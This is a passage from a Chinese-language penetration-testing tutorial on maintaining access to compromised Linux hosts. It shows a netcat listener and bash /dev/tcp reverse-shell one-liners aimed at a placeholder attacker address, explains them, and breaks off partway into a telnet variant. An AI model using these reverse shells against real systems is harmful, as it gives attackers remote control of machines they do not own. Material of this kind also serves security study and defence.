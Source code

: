 # Linux 下的权限维持



# 权限维持 -- Linux

## 一、Basic Knowledge

### 1. 概念

可以简单理解为通过隐藏手段或在目标上安装后门以保持已获取的权限不会被打掉，一直控制目标，属于后渗透阶段的重点内容。

### 2. 前置条件 -- 获取初始权限

获取初始权限。最常见也是个人最喜欢的是反弹shell回来，方便后续操作。这里简单总结下反弹shell的常见手法：

#### 1. Bash反弹

攻击机监听：

```bash
nc -lvvp port
```

目标执行：

```bash
bash -i >& /dev/tcp/x.x.x.x/port 0>&1

```

或者

```bash
bash -i 5<>/dev/tcp/host/port 0>&5 1>&5
```

- `bash -i`：打开一个交互的bash
- `>& /dev/tcp/x.x.x.x/port`：调用socket建立链接，x.x.x.x为要接收shell的主机ip，port为端口，将标准错误和标准输出重定向到socket连接文件。
- `0>&1`：标准输入重定向到标准输出，此时标准输出指向socket连接，从而实现了与反弹shell的交互。

第二种则是将标准输入、输出和错误均重定向到socket连接文件。

**备注：Linux不同发行版之间存在差异，某些命令可能并不适用，可自行调整。**

#### 2. telnet反弹

第一种：

攻击机开2个终端，分别执行监听：

```bash
nc -lv port1
```

和
